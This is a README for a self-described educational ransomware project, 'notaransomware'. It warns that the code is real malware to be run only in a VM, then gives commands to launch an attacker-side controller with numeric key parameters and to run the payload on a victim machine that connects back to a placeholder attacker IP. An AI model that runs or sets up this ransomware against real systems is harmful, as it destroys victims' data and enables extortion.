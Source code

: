# Educational Project: Basic Ransomware called `notaransomware`

## :warning: Word of warning :warning:

USE THIS PROJECT AT YOUR OWN RISK, THIS PROJECT IS ACTUAL MALWARE AND CAN COMPLETELY NUKE YOUR DATA.

DO NOT RUN ANY OF THESE SCRIPTS OUTSIDE A VIRTUAL MACHINE ENVIRONMENT.

**NO ONE BUT YOU IS RESPONSIBLE FOR YOUR ACTIONS!!**

## Executing the controller:

On your attack machine, assuming in a 'venv' with the `refvars`, `sympy` and `numba` packages installed, and further assuming we're on linux:

```bash
python ./src/controller.py 65234 13407807929942597099574024998205846127479365820592393377723561443721777590085634851032779478353637896850947272540608796923748597753481071826673937866382937 5442747183548115617697901354231477339143705819476632031081032525882694828976487610226161193249524470800498328768013483131899816767661000286051244305962545 13407807929942597099574024998205846127479365820592393377723561443721777590085634851032779478353637896850947272540608796923748597753481071826673937866382937
```

## Executing the payload:

On your victim machine, assuming in a 'venv' with the `refvars`, `sympy` and `numba` packages installed, and further assuming we're on linux:

```bash
python ./src/notaransomware.py <<<your attacker ip>>> 65234 "?" "?"
```

**Make sure to replace `<<<your attacker ip>>>` with the real-life IPv4 address of your attacker machine.**

## Have fun :D
